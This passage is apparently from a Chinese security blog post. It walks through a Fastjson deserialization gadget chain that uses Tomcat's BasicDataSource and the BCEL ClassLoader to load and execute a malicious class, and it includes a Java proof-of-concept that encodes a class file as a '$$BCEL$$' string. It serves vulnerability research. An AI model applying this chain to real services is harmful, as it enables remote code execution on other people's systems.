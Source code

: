 然后下面我们就需要考虑如何调用 loadClass 方法，在 tomcat 包下面找到了一个 BasicDataSource 的类，里面调用了 forName 方法，这里 forName 方法的底层逻辑其实调用了 loadClass 方法，所以如果我们让 dirverClassLoader 等于 ClassLoader，让 dirverClassName 等于我们自己的恶意类，就可以执行。

[![](assets/1701612260-dedd0e9cbb111ebd084201813745753b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230235-f50c7d76-2969-1.png)

然后恰好这两个变量还能够通过 setter 方法进行可控：

[![](assets/1701612260-c5aeb816210d877246f02163c169c2eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230241-f8f13cba-2969-1.png)

然后我们就来看最后能不能调用到某个 setter 方法或者 getter 中，看哪里能够调用 forName 方法对应的 createConnectionFactory 方法：

[![](assets/1701612260-0d65fb122761029e2230e726446d7dde.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230247-fc3b3fd8-2969-1.png)

再寻找 createDataSource 方法：

[![](assets/1701612260-424e7d6fa13c1618715926a745eb763f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230300-0412714a-296a-1.png)

最后我们就找到了 getConnetion 这个方法，所以单纯的调用流程就是下面这个样子，我们再把他转换为 JSON 的形式

```bash
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.setDriverClassName("$$BCEL$$"+code);
        basicDataSource.getConnection();
//        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);

        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }

        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
```